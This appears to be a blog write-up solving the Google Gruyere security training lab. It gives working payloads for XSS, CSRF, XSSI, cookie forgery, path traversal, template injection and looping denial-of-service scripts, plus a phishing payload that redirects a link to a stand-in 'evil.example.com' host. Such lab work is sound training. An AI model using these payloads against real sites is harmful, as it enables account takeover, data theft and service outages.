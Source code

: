 +++
title = "Google Gruyere"
slug = "google-gruyere"
+++

#XSS

##File upload
For this I simply uploaded the following in an HTML file:

{% highlight html %}
<html><head><title></title></head><body><script>alert('hi')</script></body>
{% endhighlight %}

Then browsed to the URL provided

##Reflected XSS
This was as simple as appending the following to the site URL:

{% highlight  html %}
<script>alert('hi')</script>
{% endhighlight %}

##Stored XSS
Here there are two places that come to mind immediately, snippets and the profile page.  There are quite a few ways to skin this cat, the one I was able to get working in multiple browsers was by using the onmouseover attribute of valid HTML elements to pop an alert, this was done using a snippet:

{% highlight html %}
<a href="#" onmouseover="alert(1)">test</a>
{% endhighlight %}

##Stored XSS Via HTML Attributes
The only place I can think of to perform this other than a snippet which we already got exploited is in the profile page, it wasn't obvious to be intially, but the profile color input can be used to apply inline CSS to your name on the home page.  For this I ended up with the following:

{% highlight html %}
black' onmouseover='alert(1)' onfocus='alert(2)' onblur='alert(3)
{% endhighlight %}

This makes my user's name throw an alert on hover, then on the edit profile page is pops on focus and blur, one thing to note, this didn't initially fire because I was trying to follow normal HTML standards, after viewing page source rather than using browser debug tools I saw single quotes were used rather than normal double quotes.

##Stored XSS Via Ajax
This one took a lot of messing around, based on Google's provided hints, the refresh button was our target.  After tinkering a lot I was able to come up with this:

{% highlight javascript %}
hey <span style=display:none>eval(" + (alert(1),"") + ")</span>hi
{% endhighlight %}

This works because when you hit refresh on home a JSON object containing the latest snippets from each user gets eval'd in JavaScript, it took me quite a while to get this because I kept thinking I would need valid JSON, however when using eval the JSON value just has to be parseable JavaScript.

##Reflected XSS Via Ajax
This is very similar to the previous reflected XSS attack mentioned previously, it just gets hit in a different way.  After reading and looking through the code samples Google provides I noticed that the feed page when supplied the uid query string parameter does an eval-ish processing on the page that takes a URL like this:

{% highlight html %}
feed.gtl?uid=<script>alert(1)</script>
{% endhighlight %}

Then renders like this in page source:
{% highlight javascript %}
_feed((
[
"<script>alert(1)</script>"
]
))
{% endhighlight %}



{
"private_snippet":
  "private"

,"cheddar":
  "Gruyere is the cheesiest application on the web."


,"bob":
  "all <span style=display:none>" + (alert(1),"") + "</span>your base"
,"brie":
  "Brie is the queen of the cheeses<span style=color:red>!!!</span>"
}

#Client-State manipulation

##Priviledge elevation
In watching requests go through Burp I noticed that user registration passes the query string parameter is_author=True, which made me wonder if there was an is_admin option to pass.  After that I was seeing my requests to update a user profile, this also included the is_author parameter.  So I just started trying to set is admin.  Initially it seemed like no attempts were working, after looking through Google's hints it turns out that you need to log out then log back in, this way the cookie that gets used to identify you includes the admin flag, which doesn't happen by just editing the cookie.  

The reason for this is that the cookie is structured as follows:

32400598|bob||author

The first integer value is a token that gets generated server side, this seems to be the reason I wasn't able to just modify the cookie directly to get elevated privilidges.  Upon logging out and back in the cookie looks more like this:

32400598|bob|admin|author

Now the profile page has all the admin options and the manage server link also shows up.

##Cookie manipulation
This actually ended up being a bit more difficult, the cookie that gets set to identify a given browser as being a given system user gets generated based on the login or signing up of a user.  After trying a lot of different options I broke down and looked at the hints from Google and ended up with:

brie|admin|author

As my username when registering, a side affect (or what appears to be one) is that this can circumvent logging in as well.  Upon clicking sign in I was authenticated as brie without actually logging in.

##CSRF
All of these items require browsing an HTML file locally while also authenticated with Gruyere

To complete the exercise of deleting someone's snippet:
{% highlight html %}
<html><head><title></title></head><body><img src="http://google-gruyere.appspot.com/458351305912/deletesnippet?index=0" /></body></html>
{% endhighlight %}

Then just for fun, I tested updating a user's profile using the same technique, which worked:
{% highlight html %}
<html><head><title></title></head><body><img src="http://google-gruyere.appspot.com/458351305912/saveprofile?action=update&uid=bob&name=bob&oldpw=&pw=&icon=buttfart&web_site=http%3A%2F%2Fgithub.com&color=black&private_snippet=privat" />
</body></html>
{% endhighlight %}

##XSSI
For this exercise I ended up with:
{% highlight html %}
<html><head><title></title></head><body>
<script>function _feed(s) {document.write('your private thing is: ' + s['private_snippet']);}</script><script src="http://google-gruyere.appspot.com/458351305912/feed.gtl"></script></body></html>
{% endhighlight %}

What this is doing is defining a function that matches how the JavaScript in feed.gtl gets called, and then outputting data stored outside of our local files boundaries, but because the executing script has Google's system/domain as its context it has access to the snipped data where our _feed(s) function would have never originally had access.

#Path Traversal

##Information disclosure via path traversal
This ended up being really simple, but the browser was correcting the URL so it didn't work initially, my ../secret.txt needed to be ..%2Fsecret.txt, updating the encoding made things work.

##Data tampering via path traversal
For this one I started off trying to get the file overwritten by having a filename that included the directory traversal, however that just wouldn't work:
..%2F..2Fsecret.txt

After a bit of head scratching the username ended up working, signing up as a user with the name: ..%2F..%2F then uploading a new secret.txt, success.

#Denial of Service

##DoS - Quit the server
This one was pretty fun.  I totally forgot about CORS and originally wrote up a snippet of JavaScript to try and get this working, however the ajax requests got blocked by browser security.  

{% highlight html %}
<html>
  <head>
      <title></title>
      <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.2.1/jquery.min.js"></script>
      <script>
          (function($) {
              'use strict';
              var killbot = {
                  init: function() {
                      setInterval(function() {
                          $.ajax({
                              method: 'GET',
                              url: 'http://google-gruyere.appspot.com/458351305912/quitserver'
                          }).done(function(response) {
                              document.write('Killed server successfully\n');
                              document.write(response);
                          }).error(function(response) {
                              document.write('Error killing server');
                              document.write(response);
                          });
                      }, 5000);
                  },
                  handleEvents: function() {
                      let self = this;
                      $('#start').on('click', function(e) {
                          e.preventDefault();
                          self.init();
                      });

                      $('#stop').on('click', function() {
                          e.preventDefault();
                          clearInterval();
                      });
                  }
              };
              killbot.init();
          }(jQuery));
      </script>
  </head>
  <body>
      <ul>
          <li><a href="#" id="start">start</a></li>
          <li><a href="#" id="stop">stop</a></li>
      </ul>
      <img src=""
  </body>
</html>
{% endhighlight %}

At this point I was thinking how useful would making a CSRF-ish attack using an image tag be?  It turns out with some Javascript and the image tag method worked together beautifully.  

{% highlight html %}
<html>
  <head>
      <title></title>
      <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.2.1/jquery.min.js"></script>
      <script>
          (function($) {
              'use strict';
              var killbot = {
                  init: function() {
                      setInterval(function() {
                          $('img').attr('src', 'http://google-gruyere.appspot.com/458351305912/quitserver');
                      }, 200);
                  },
                  handleEvents: function() {
                      let self = this;
                      $('#start').on('click', function(e) {
                          e.preventDefault();
                          self.init();
                      });

                      $('#stop').on('click', function() {
                          e.preventDefault();
                          clearInterval();
                      });
                  }
              };
              killbot.init();
          }(jQuery));
      </script>
  </head>
  <body>
      <ul>
          <li><a href="#" id="start">start</a></li>
          <li><a href="#" id="stop">stop</a></li>
      </ul>
      <img src="http://google-gruyere.appspot.com/458351305912/quitserver" />
  </body>
</html>
{% endhighlight %}

This worked both in an authenticated and un-authenticated browser session, its basically utilizing the same method to continually performing the server quit action on a loop.  Then just for fun I tried this on a browser that wasn't authenticated and it still worked, double whammy.

##DoS - Overloading the server
I had to look at the hints on this one to get it working.  Pretty much just overridding a template that gets rendered on every page, it ended up being menubar.gtl:

{% highlight python %} 
[[include:menubar.gtl]]DoS[[/include:menubar.gtl]]
{% endhighlight %}

#Code Execution
From looking at the files that power gruyer and the docs it looks like one of these .py files could be used.  I tried a few, the last of which being sanitize.py adding the following:

{% highlight python %}
from urlparse import urlparse, parse_qs

form = util.FieldStorage(req, keep_blank_values=1)
myparameter = form.getfirst("cmd")
print myparameter
{% endhighlight %}

#Configuration Vulnerabilities

##Information Disclosure 1
This one ended up being pretty easy, the description mentioned checking the files, a quick search through with grep for debug and config:

{% highlight bash %}
grep -irE 'debug|config' *
gruyere.py:  def _DoReset(self, cookie, specials, params):  # debug only; resets this db
gtl.py:  elif escaper_name == 'pprint':  # for debugging
resources/dump.gtl:<title>Debug Dump</title>
{% endhighlight %}

Looking at dump.gtl is prints the database out to a page:
{% highlight json %}
_cookie:  	

{'is_admin': True, 'is_author': True, 'uid': u'bob'}

_profile:  	

{'is_author': 'True', 'name': 'bob', 'pw': 'password'}

_db:  	

{'../': {'is_author': 'True', 'name': '../', 'pw': 'password'},
 '../../': {'is_author': 'True', 'name': '../../', 'pw': 'password'},
 'administrator': {'is_admin': True,
                   'is_author': False,
                   'name': 'Admin',
                   'private_snippet': 'My password is secret. Get it?',
                   'pw': 'secret',
                   'web_site': 'http://www.google.com/contact/security.html'},
 'bob': {'is_author': 'True', 'name': 'bob', 'pw': 'password'},
 'bob|admin|author': {'is_author': 'True',
                      'name': 'bob|admin|author',
                      'pw': 'password'},
 'brie': {'color': 'red; text-decoration:underline',
          'is_admin': False,
          'is_author': True,
          'name': 'Brie',
          'private_snippet': 'I use the same password for all my accounts.',
          'pw': 'briebrie',
          'snippets': ['Brie is the queen of the cheeses<span style=color:red>!!!</span>'],
          'web_site': 'http://news.google.com/news/search?q=brie'},
 'cheddar': {'color': 'blue',
             'is_admin': False,
             'is_author': True,
             'name': 'Cheddar Mac',
             'private_snippet': 'My SSN is <a href="http://www.google.com/search?q=078-05-1120">078-05-1120</a>.',
             'pw': 'orange',
             'snippets': ['Gruyere is the cheesiest application on the web.',
                          'I wonder if there are any security holes in this....'],
             'web_site': 'http://images.google.com/images?q=cheddar+cheese'},
 'sardo': {'color': 'red',
           'is_admin': False,
           'is_author': True,
           'name': 'Miss Sardo',
           'private_snippet': 'I hate my brother Romano.',
           'pw': 'odras',
           'snippets': [],
           'web_site': 'http://www.google.com/search?q="pecorino+sardo"'}}
{% endhighlight %}

##Information Disclosure 2
After digging around more in the code thinking the vulnerability existed somewhere else I remembered that I can just upload arbitrary files to the server.  So I just went and uploaded the dump.gtl file back to the server in resources, then I was able to use the dump template again.

##Information Disclosure 3
This one referred to bad code so I starting going through the python some more.  Looking at gtl.py, which looks like it handles the various components of the templating language.  There is a section that uses {{ }} as variables:

{% highlight python %}
VAR_OPEN = '{{'
VAR_CLOSE = '}}'


def _ExpandVariables(template, specials, params, name):
  """Expands all the variables in a template."""
  result = []
  rest = template
  while rest:
    tag, before_tag, after_tag = _FindTag(rest, VAR_OPEN, VAR_CLOSE)
    if tag is None:
      break
    result.append(rest[:before_tag])
    result.append(str(_ExpandVariable(tag, specials, params, name)))
    rest = rest[after_tag:]
  return ''.join(result) + rest
{% endhighlight %}

This looks like it would be used for handling something like {{_db:pprint}} from dump.gtl

Looking at the edit/show profile template, two of the fields in a profile use the {{}} syntax for outputting data:

{% highlight html %}
<input type='text' name='web_site' value='{{_profile.web_site:text}}'>
<input type='text' name='private_snippet' value='{{_profile.private_snippet:text}}'>
{% endhighlight %}

They look like something to check out, lets just try putting {{_db:pprint}} in.

After saving the db dump gets thrown into the form controls.

#Ajax Vulnerabilities

##DoS via Ajax
{% highlight javascript %}
" + eval(document.getElementById('menu-right').getElementsByTagName('a')[0].setAttribute('href', 'http://evil.example.com')) + "
{% endhighlight %}

##Phishing via Ajax
" + eval(console.log(document.getElementById('menu-right').getElementsByTagName('a')[0].setAttribute('href', 'http://evil.example.com'))) + "
